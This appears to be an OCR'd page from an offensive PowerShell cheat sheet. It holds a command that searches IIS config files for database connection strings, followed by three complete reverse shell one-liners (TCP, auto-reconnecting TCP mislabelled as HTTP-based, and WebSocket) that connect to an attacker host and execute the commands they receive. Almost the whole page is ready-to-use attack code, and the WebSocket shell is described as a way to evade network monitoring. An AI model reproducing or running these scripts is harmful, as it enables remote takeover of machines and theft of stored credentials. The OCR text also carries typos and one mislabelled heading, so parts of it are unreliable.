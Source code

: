 Scans for database connection strings in web application conguration les, which often contain credentials for database access.

```powershell
Select-String -Path C:\inetpub\wwwroot\*.config -Pattern 'connectionString' -CaseSensitive
```

### Simple PowerShell Reverse Shell

Establishes a basic reverse shell connection to a specied attacker-controlled machine. This allows the attacker to execute commands remotely.

```powershell
$client = New-Object System.Net.Sockets.TCPClient('attacker_ip', attacker_port); $stream =
$client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0,
$bytes.Length)) -ne 0){; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,
$i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()}; $client.Close()
```

### HTTP-Based PowerShell Reverse Shell

This script creates a more resilient reverse shell that attempts to reconnect every 10 seconds if the connection is lost. It uses HTTP for communication.

```powershell
while($true) { try { $client = New-Object System.Net.Sockets.TCPClient('attacker_ip', attacker_port);
$stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0,
$bytes.Length)) -ne 0){; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,
$i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()}; $client.Close() } catch { Start-Sleep -Seconds 10 } }
```

### WebSocket-Based PowerShell Reverse Shell

Establishes a reverse shell using WebSockets, which can be more stealthy and bypass some network monitoring tools.

```powershell
$ClientWebSocket = New-Object System.Net.WebSockets.ClientWebSocket; $uri = New-Object
System.Uri("ws://attacker_ip:attacker_port"); $ClientWebSocket.ConnectAsync($uri, $null).Result;
$buffer = New-Object Byte[] 1024; while ($ClientWebSocket.State -eq 'Open') { $received =
$ClientWebSocket.ReceiveAsync($buffer, $null).Result; $command =
[System.Text.Encoding]::ASCII.GetString($buffer, 0, $received.Count); $output = iex $command 2>&1 |
Out-String; $bytesToSend = [System.Text.Encoding]::ASCII.GetBytes($output);
$ClientWebSocket.SendAsync($bytesToSend, 'Binary', $true, $null).Wait() }
```
